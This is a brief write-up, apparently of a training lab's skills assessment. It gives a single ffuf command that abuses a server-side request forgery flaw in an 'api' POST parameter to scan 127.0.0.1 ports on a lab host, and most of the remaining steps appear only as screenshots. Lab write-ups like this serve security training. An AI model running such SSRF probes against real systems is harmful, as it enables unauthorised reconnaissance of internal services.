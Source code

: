 # 🫎 Skills Assessment

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Port that is closed:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```sh
ffuf -w num.txt -u http://94.237.50.83:30608/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error"
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we got no other service running other than the web app, let's try retreiving files:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Not quite sure if it was intended to be finished like that?

